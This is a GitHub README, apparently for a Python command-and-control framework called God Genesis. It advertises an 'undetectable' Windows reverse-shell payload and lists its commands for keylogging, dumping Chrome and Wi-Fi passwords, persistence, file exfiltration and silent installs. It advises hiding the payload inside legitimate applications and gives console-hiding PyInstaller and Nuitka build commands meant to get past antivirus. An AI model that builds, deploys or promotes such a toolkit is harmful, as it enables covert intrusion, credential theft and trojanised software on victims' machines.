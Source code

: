 # Welcome To God Genesis
![FinalGod](https://user-images.githubusercontent.com/66937297/175554898-58c56076-7cf9-4b1d-9d5d-2f2b27a9c0e3.png)

God Genesis is a C2 server purely coded in Python3 created to help Red Teamers and Penetration Testers. 
Currently It only supports TCP reverse shell but wait a min, its a FUD and can give u admin shell from any targeted WINDOWS Machine.

The List Of Commands It Supports :-

```
                ===================================================================================================
                  BASIC COMMANDS:
                ===================================================================================================
                            help                  --> Show This Options
                            terminate             --> Exit The Shell Completely
                            exit                  --> Shell Works In Background And Prompted To C2 Server
                            clear                 --> Clear The Previous Outputs

                ===================================================================================================
                  SYSTEM COMMANDS:
                ===================================================================================================
                            cd                    --> Change Directory
                            pwd                   --> Prints Current Working Directory
                            mkdir *dir_name*      --> Creates A Directory Mentioned
                            rm *dir_name*         --> Deletes A Directoty Mentioned
                            powershell [command]  --> Run Powershell Command
                            start *exe_name*      --> Start Any Executable By Giving The Executable Name

                ===================================================================================================
                  INFORMATION GATHERING COMMANDS:
                ===================================================================================================
                            env                   --> Checks Enviornment Variables
                            sc                    --> Lists All Services Running
                            user                  --> Current User
                            info                  --> Gives Us All Information About Compromised System
                            av                    --> Lists All antivirus In Compromised System

                ===================================================================================================
                  DATA EXFILTRATION COMMANDS:
                ===================================================================================================
                            download *file_name*  --> Download Files From Compromised System
                            upload *file_name*    --> Uploads Files To Victim Pc


                ===================================================================================================
                  EXPLOITATION COMMANDS:
                ===================================================================================================
                            persistence1          --> Persistance Via Method 1
                            persistence2          --> Persistance Via Method 2
                            get                   --> Download Files From Any URL
                            chrome_pass_dump      --> Dump All Stored Passwords From Chrome Bowser
                            wifi_password         --> Dump Passwords Of All Saved Wifi Networks
                            keylogger             --> Starts Key Logging Via Keylogger
                            dump_keylogger        --> Dump All Logs Done By Keylogger 
                            python_install        --> Installs Python In Victim Pc Without UI


```


# Features Of Our Framework :-
Check The Video To Get A Detail Knowledge
```
1. The Payload.py is a FULLY UNDETECTABLE(FUD) use your own techniques for making an exe file. (Best Result When Backdoored With Some Other Legitimate Applictions)
2. Able to perform privilege escalation on any windows systems.
3. Fud keylogger
4. 2 ways of achieving persistance 
5. Recon automation to save your time.

```


How To Use Our Tool : 

```
git clone https://github.com/SaumyajeetDas/GodGenesis.git

pip3 install -r requirements.txt

python3 c2c.py

Use Pyinstaller or Nuitka to compile and test on the targeted AV's and Endpoints

Nuitka Command : python -m nuitka payload.py --standalone --onefile --windows-disable-console


Pyinstaller Command : pyinstaller payload.py --target-arch x86_64 --noconsole --key 1234GodlikeBro! --onefile

```

It is worth mentioning that [Suman Chakraborty](https://github.com/ANON4MOUS)
have contributed in the framework by coding the the the Fud Keyloger, Wifi Password Extraction and Chrome Password Dumper modules. 


https://user-images.githubusercontent.com/66937297/175561859-a0e9f9dd-1e59-46da-a8e9-197d800bee37.mp4






## Dont Forget To Change The IP ADDRESS Manually in both c2c.py and payload.py

